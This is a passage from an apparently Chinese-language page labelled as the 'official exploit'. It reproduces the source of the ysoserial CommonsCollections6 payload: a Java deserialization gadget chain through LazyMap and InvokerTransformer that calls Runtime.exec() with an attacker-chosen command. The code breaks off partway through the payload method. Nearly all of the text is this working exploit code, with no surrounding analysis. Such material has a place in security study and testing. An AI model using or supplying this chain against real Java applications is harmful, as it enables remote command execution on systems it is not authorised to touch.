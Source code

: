 #### 官方 EXP

```java
package ysoserial.payloads;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

import java.io.Serializable;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

/*
	Gadget chain:
	    java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()

    by @matthias_kaiser
*/
@SuppressWarnings({"rawtypes", "unchecked"})
@Dependencies({"commons-collections:commons-collections:3.1"})
@Authors({ Authors.MATTHIASKAISER })
public class CommonsCollections6 extends PayloadRunner implements ObjectPayload<Serializable> {

    public Serializable getObject(final String command) throws Exception {

        final String[] execArgs = new String[] { command };

        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, execArgs),
                new ConstantTransformer(1) };

        Transformer transformerChain = new ChainedTransformer(transformers);

        final Map innerMap = new HashMap();

        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
```